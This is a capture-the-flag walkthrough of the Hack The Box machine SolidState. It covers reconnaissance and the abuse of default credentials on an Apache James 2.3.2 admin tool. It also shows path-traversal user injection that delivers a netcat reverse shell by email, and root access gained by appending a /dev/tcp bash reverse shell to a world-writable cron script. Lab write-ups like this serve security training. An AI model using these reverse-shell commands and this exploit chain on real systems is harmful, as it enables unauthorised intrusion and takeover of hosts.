

---
metaLinks:
  alternates:
    - >-
      https://app.gitbook.com/s/qDX4NWkPelZggTpGCfyF/course-review/cyber-security-courses-journey/oscp-journey/ctf/hack-the-box/linux-boxes/solidstate-medium
---

# ✅ SolidState (Medium)

## Lesson Learn



## Report-Penetration

**Vulnerable Exploit:** Apache James version out of dated

**System Vulnerable:** 10.10.10.51

**Vulnerability Explanation:** The machine is vulnerable to Remote Command Injection on username field and default credential in used. We exploit this by create new user and send reverse shell payload through mail and once any user login, we will gain initial shell on the machine.

**Privilege Escalation Vulnerability:** Misconfigure file permission

**Vulnerability Fix:** Apply patch and update the Apache James version to the lasted and stable

**Severity:** High

**Step to Compromise the Host:**&#x20;

## Reconnaissance

```
└─$ nmap -p- -sC -sV -T4 10.10.10.51   
Starting Nmap 7.91 ( https://nmap.org ) at 2021-11-06 10:35 EDT
Nmap scan report for 10.10.10.51
Host is up (0.044s latency).
Not shown: 65529 closed ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.4p1 Debian 10+deb9u1 (protocol 2.0)
| ssh-hostkey: 
|   2048 77:00:84:f5:78:b9:c7:d3:54:cf:71:2e:0d:52:6d:8b (RSA)
|   256 78:b8:3a:f6:60:19:06:91:f5:53:92:1d:3f:48:ed:53 (ECDSA)
|_  256 e4:45:e9:ed:07:4d:73:69:43:5a:12:70:9d:c4:af:76 (ED25519)
25/tcp   open  smtp    JAMES smtpd 2.3.2
|_smtp-commands: solidstate Hello nmap.scanme.org (10.10.14.31 [10.10.14.31]), 
80/tcp   open  http    Apache httpd 2.4.25 ((Debian))
|_http-server-header: Apache/2.4.25 (Debian)
|_http-title: Home - Solid State Security
110/tcp  open  pop3    JAMES pop3d 2.3.2
119/tcp  open  nntp    JAMES nntpd (posting ok)
4555/tcp open  rsip?
| fingerprint-strings: 
|   GenericLines: 
|     JAMES Remote Administration Tool 2.3.2
|     Please enter your login and password
|     Login id:
|     Password:
|     Login failed for 
|_    Login id:
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port4555-TCP:V=7.91%I=7%D=11/6%Time=618692D3%P=x86_64-pc-linux-gnu%r(Ge
SF:nericLines,7C,"JAMES\x20Remote\x20Administration\x20Tool\x202\.3\.2\nPl
SF:ease\x20enter\x20your\x20login\x20and\x20password\nLogin\x20id:\nPasswo
SF:rd:\nLogin\x20failed\x20for\x20\nLogin\x20id:\n");
Service Info: Host: solidstate; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 281.67 seconds
```

## Enumeration

### Port 80 Apache/2.4.25 (Debian)

Let start with port 80, we  have a webpage of Solid State Security. Checking on source code didn't found anything.

.png>)

Running gobuster but nothing is interesting.

```
└─$ gobuster dir -u http://10.10.10.51 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 50 -x .html,.txt   
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.51
[+] Method:                  GET
[+] Threads:                 50
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              html,txt
[+] Timeout:                 10s
===============================================================
2021/11/06 10:52:55 Starting gobuster in directory enumeration mode
===============================================================
/images               (Status: 301) [Size: 311] [--> http://10.10.10.51/images/]
/index.html           (Status: 200) [Size: 7776]                                
/about.html           (Status: 200) [Size: 7183]                                
/services.html        (Status: 200) [Size: 8404]                                
/assets               (Status: 301) [Size: 311] [--> http://10.10.10.51/assets/]
/README.txt           (Status: 200) [Size: 963]                                 
/LICENSE.txt          (Status: 200) [Size: 17128]                               
/server-status        (Status: 403) [Size: 299]                                                      
===============================================================
2021/11/06 11:03:10 Finished
===============================================================

```

### Port 4555 JAMES Remote Administration Tool 2.3.2

I have seen Remote Administration Tool. I don't know what that is. Let me search for public exploit for this version and service.

.png>)

Let check the exploit code for Remote Command Execution. On the exploit code I just notice some parts that the script going to do.

* This is an authenticated exploit. The exploit uses the default credentials root/root.
* It's going to connect to the server IP that we provided the argument.
* The script first creates a user with username “../../../../../../../../etc/bash\_completion.d” and password “exploit”.

## Exploitation

Let start connect to port 4555, We can login with root/root as expected.

```
└─$ telnet 10.10.10.51 4555
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of command
```

Let check HELP for list of command to check out which command we can run.

```
HELP
Currently implemented commands:
help                                    display this help
listusers                               display existing accounts
countusers                              display the number of existing accounts
adduser [username] [password]           add a new user
verify [username]                       verify if specified user exist
deluser [username]                      delete existing user
setpassword [username] [password]       sets a user's password
setalias [user] [alias]                 locally forwards all email for 'user' to 'alias'
showalias [username]                    shows a user's current email alias
unsetalias [user]                       unsets an alias for 'user'
setforwarding [username] [emailaddress] forwards a user's email to another email address
showforwarding [username]               shows a user's current email forwarding
unsetforwarding [username]              removes a forward
user [repositoryname]                   change to another user repository
shutdown                                kills the current JVM (convenient when James is run as a daemon)
quit                                    close connection
```

Let start to use listusers command. As we can see, there are 5 users.

```
listusers
Existing accounts 5
user: james
user: thomas
user: john
user: mindy
user: mailadmin
```

Actually, there is a command to change the password of the user. Let start change the password of those users.

```
setpassword james password
Password for james reset
setpassword thomas password
Password for thomas reset
setpassword john password
Password for john reset
setpassword mindy password
Password for mindy reset
setpassword mailadmin password
Password for mailadmin reset
```

Let connect to mail protocol POP3 (110) to check the mail box of each users.

On user james, we didn't see any email.

```
└─$ telnet 10.10.10.51 110                                                                                                                                              1 ⨯
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER james
+OK
PASS password
+OK Welcome james
LIST
+OK 0 0
```

On user thomas also we didn't see any email.

```
└─$ telnet 10.10.10.51 110                                                           
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER thomas
+OK
PASS password
+OK Welcome thomas
LIST
+OK 0 0
```

On user mailadmin also we didn't see any email.

```
└─$ telnet 10.10.10.51 110                                                       1 ⨯
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mailadmin
+OK
PASS password
+OK Welcome mailadmin
LIST
+OK 0 0
```

On user john, we found 1 email which is interesting. As it mentions that will send temporary password for mindy.

```
└─$ telnet 10.10.10.51 110                                                       1 ⨯
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER john
+OK
PASS password
+OK Welcome john
LIST    
+OK 1 743
1 743
.
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <9564574.1.1503422198108.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: john@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <john@localhost>;
          Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:16:20 -0400 (EDT)
From: mailadmin@localhost
Subject: New Hires access
John, 

Can you please restrict mindy's access until she gets read on to the program. Also make sure that you send her a tempory password to login to her accounts.

Thank you in advance.

Respectfully,
James
```

On mindy account, we found SSH key was transfer via email to mindy.

```
└─$ telnet 10.10.10.51 110                                                       1 ⨯
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
+OK solidstate POP3 server (JAMES POP3 Server 2.3.2) ready 
USER mindy
+OK
PASS password
+OK Welcome mindy
LIST
+OK 2 1945
1 1109
2 836
.
RETR 1
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <5420213.0.1503422039826.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 798
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:13:42 -0400 (EDT)
From: mailadmin@localhost
Subject: Welcome

Dear Mindy,
Welcome to Solid State Security Cyber team! We are delighted you are joining us as a junior defense analyst. Your role is critical in fulfilling the mission of our orginzation. The enclosed information is designed to serve as an introduction to Cyber Security and provide resources that will help you make a smooth transition into your new role. The Cyber team is here to support your transition so, please know that you can call on any of us to assist you.

We are looking forward to you joining our team and your success at Solid State Security. 

Respectfully,
James
.
RETR 2
+OK Message follows
Return-Path: <mailadmin@localhost>
Message-ID: <16744123.2.1503422270399.JavaMail.root@solidstate>
MIME-Version: 1.0
Content-Type: text/plain; charset=us-ascii
Content-Transfer-Encoding: 7bit
Delivered-To: mindy@localhost
Received: from 192.168.11.142 ([192.168.11.142])
          by solidstate (JAMES SMTP Server 2.3.2) with SMTP ID 581
          for <mindy@localhost>;
          Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
Date: Tue, 22 Aug 2017 13:17:28 -0400 (EDT)
From: mailadmin@localhost
Subject: Your Access

Dear Mindy,


Here are your ssh credentials to access the system. Remember to reset your password after your first login. 
Your access is restricted at the moment, feel free to ask your supervisor to add any commands you need to your path. 

username: mindy
pass: P@55W0rd1!2@

Respectfully,
James
```

Let start ssh to the machine with user **mindy** and password **P@55W0rd1!2@**.

.png>)

We are now on the machines but unfortunately, we can issue command only **ls** and **cat**.

### **Escape restrict rbash**

```
# This will run bash on connect instead of the assigned shell.

└─$ ssh mindy@10.10.10.51 -t bash                                                                                                                                       1 ⨯
mindy@10.10.10.51's password: 
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ whoami
mindy
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ id
uid=1001(mindy) gid=1001(mindy) groups=1001(mindy)
${debian_chroot:+($debian_chroot)}mindy@solidstate:~$ exit
```

### ReverseShell via Mail

Let get back to our exploit code, seem like it's going to create user and inject on username field with **../../../../../../../../etc/bash\_completion.d.**&#x20;

Let create a user with inject the exploit script.

```
└─$ nc 10.10.10.51 4555
JAMES Remote Administration Tool 2.3.2
Please enter your login and password
Login id:
root
Password:
root
Welcome root. HELP for a list of commands
adduser ../../../../../../../../etc/bash_completion.d test
User ../../../../../../../../etc/bash_completion.d added
```

Sending a mail with reverse shell via email to use we just create.

```
└─$ telnet 10.10.10.51 25
Trying 10.10.10.51...
Connected to 10.10.10.51.
Escape character is '^]'.
220 solidstate SMTP Server (JAMES SMTP Server 2.3.2) ready Sun, 7 Nov 2021 01:40:37 -0500 (EST)
EHLO test.test
250-solidstate Hello test.test (10.10.14.31 [10.10.14.31])
250-PIPELINING
250 ENHANCEDSTATUSCODES
MAIL FROM: <'test@test.com>
250 2.1.0 Sender <'test@test.com> OK
RCPT TO: <../../../../../../../../etc/bash_completion.d>
250 2.1.5 Recipient <../../../../../../../../etc/bash_completion.d@localhost> OK
DATA
354 Ok Send data ending with <CRLF>.<CRLF>
FROM: test.test
'
/bin/nc -e /bin/bash 10.10.14.31 4444
.
250 2.6.0 Message received
quit
221 2.0.0 solidstate Service closing transmission channel
Connection closed by foreign host.
```

Start netcat listener on port 4444 and wait for any user login to the machine.

```
nc -lvp 4444
```

Let login ssh to the machine with user mindy so that we get reverse shell as user mindy.

.png>)

.png>)

## Privilege Escalation

First we need to perform basic enumerate on the machine or run linenum.sh check for vulnerable. But we don't get any interest result back. Let check for process running.

Let start HTTP Server for transfer file pspy to the victim machine.

```
python3 -m http.server 80
curl 10.10.14.31/pspy32 -o pspy32
chmod +x pspy32
./pspy32
```

### Auto script python

After waiting for sometimes, there is cron jobs schedule to run python script.

.png>)

Let check on the file /opt/tmp.py. As we have write permission. So we can inject or overwrite the file with reverse shell payload.

```
${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ ls -l tmp.py 
-rwxrwxrwx 1 root root 105 Aug 22  2017 tmp.py
```

Let inject bash reverse payload to the tmp.py and start netcat listener on port 5555.

```
echo "os.system('bash -c "bash -i >& /dev/tcp/10.10.14.31/5555 0>&1"')" >> /opt/tmp.py

${debian_chroot:+($debian_chroot)}mindy@solidstate:/opt$ cat tmp.py
#!/usr/bin/env python
import os
import sys
try:
     os.system('rm -r /tmp/* ')
except:
     sys.exit()
os.system('bash -c "bash -i >& /dev/tcp/10.10.14.31/5555 0>&1"')
```

Let wait for sometimes, the shell pop up with root permission.

.png>)
